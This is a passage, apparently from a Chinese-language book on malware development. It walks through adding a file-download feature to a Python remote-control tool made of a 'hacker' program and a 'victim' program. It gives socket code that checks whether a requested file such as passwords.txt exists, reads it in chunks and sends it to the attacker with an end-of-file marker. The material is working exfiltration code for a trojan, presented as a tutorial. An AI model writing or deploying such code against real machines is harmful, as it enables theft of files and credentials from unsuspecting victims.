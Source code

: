 图 7.1 – 向黑客发送文件

首先，我们需要将受害者的文件名从黑客发送到受害者。我们已经在*第六章*《恶意软件开发》中学到了如何通过网络发送文本数据，因此这个过程相对直接。在黑客程序中，我们将设计以下策略，发送需要从受害者下载的文件名。如果我们想下载一个名为`passwords.txt`的文件，我们的命令看起来可能是`download passwords.txt`。因此，在黑客程序中，我们将检查黑客命令是否以`download`开头，并为此条件创建一个案例。我们来看一下以下代码。在我们的主循环中，我们检查不同条件的地方，将插入以下检查：

elif command.startswith("download"):

hacker_socket.send(command.encode())

exist = hacker_socket.recv(1024)

第一行检查黑客的命令是否是从受害者那里下载文件。如果是，我们将命令发送给受害者，受害者将回复文件是否存在。根据回复，可以采取进一步的行动。如果文件存在，我们将处理下载文件的情况，否则我们将安全退出程序。现在，让我们稍微停留在黑客程序上，转到受害者程序。在受害者端，我们需要添加一个类似的检查，判断命令是否为`download`。如果是，我们将从接收到的消息中提取文件名，并检查文件是否存在。进入受害者程序，并在主循环中编写以下检查：

elif hacker_command.startswith("download"):

file_to_download = hacker_command.strip("download ")

if os.path.exists(file_to_download):

exists = "yes"

victim_socket.send(exists.encode())

else:

exists = "no"

victim_socket.send(exists.encode())

continue

在这里，我们接收命令并检查命令的类型。一旦收到包含下载字符串的命令，我们可以从命令中剥离出下载部分，以检索我们感兴趣的实际文件名。在前面代码的第三行中，我们检查文件是否存在。如果存在，我们会回复`yes`，否则回复`no`。记住，在黑客程序中，我们在等待接收`exists`变量的这个回复。请注意，我们还没有发送任何文件数据。我们只是创建了外部循环来正确处理数据的发送和接收。文件的读取部分将在前面代码的第一个`if`语句中处理。现在，我们需要读取文件。

接下来，让我们看看下面的代码，它从受害者的机器读取文件并将其发送回黑客：

with open(file_to_download, "rb") as file:

chunk = file.read(CHUNK_SIZE)

while len(chunk) > 0:

victim_socket.send(chunk)

chunk = file.read(CHUNK_SIZE)

# 这将一直运行直到文件结束。

# 一旦文件传输完成，我们需要发送标识符。                            victim_socket.send(eof_identifier.encode())

print("文件成功发送")

让我们来分析一下刚才看到的代码。文件行是一个命令，用于以二进制格式打开并读取文件。尽管它是一个文本文件，但如果你想通过网络传输文件，读取二进制格式的文件是个好主意，因为在实际情况下，文件类型可能是任何格式。接着，我们读取一块字节，并且在文件顶部定义了`CHUNK_SIZE = 2048`。在读取第一块字节后，我们检查文件是否还有更多字节。如果有，我们就通过使用`while`循环迭代地将其发送到网络，直到读取到文件的末尾。这个循环将在没有更多字节可读时停止。一旦我们将完整的文件通过网络发送到黑客那里，我们需要发送标识符，以便黑客知道他们可以停止继续读取。为此，我们发送`eof_identifier`，其值为`eof_identifier = "<END_OF_FILE_IDENTIFIER>"`。黑客将使用这个标识符来确认接收到的数据已经完整。
